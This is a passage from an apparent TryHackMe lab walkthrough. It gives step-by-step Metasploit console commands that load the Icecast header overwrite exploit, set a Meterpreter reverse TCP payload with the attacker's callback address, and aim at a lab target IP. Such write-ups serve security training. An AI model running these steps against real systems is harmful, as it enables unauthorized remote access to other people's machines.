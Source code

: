 ```
msf5 exploit(windows/http/icecast_header) > use 4 exploit/multi/handler
msf5 exploit(linux/local/desktop_privilege_escalation) >
```

`#`

8. Now type the command 'use NUMBER_FROM_PREVIOUS_QUESTION'. This is the short way to use modules returned by search results.

```
msf5 exploit(linux/local/desktop_privilege_escalation) > use 4
msf5 exploit(linux/local/desktop_privilege_escalation) >
```

`No answer needed`

9. Next, let's set the payload using this command 'set PAYLOAD windows/meterpreter/reverse_tcp'. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command 'set LHOST YOUR_IP_ON_TRYHACKME'. You might have to check your IP using the command 'ip addr', it will likely be your tun0 interface.

```
msf5 exploit(linux/local/desktop_privilege_escalation) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(linux/local/desktop_privilege_escalation) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(linux/local/desktop_privilege_escalation) >
```

`No answer needed`

10. Let's go ahead and return to our previous exploit, run the command `use icecast` to select it again.

```
msf5 exploit(linux/local/desktop_privilege_escalation) > use icecast

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


[*] Using exploit/windows/http/icecast_header
```

`No answer needed`

11. One last step before we can run our exploit. Run the command 'set RHOSTS BOX_IP' to tell Metasploit which target to attack.

```
msf5 exploit(windows/http/icecast_header) > set RHOSTS 10.10.223.155
RHOSTS => 10.10.223.155
```
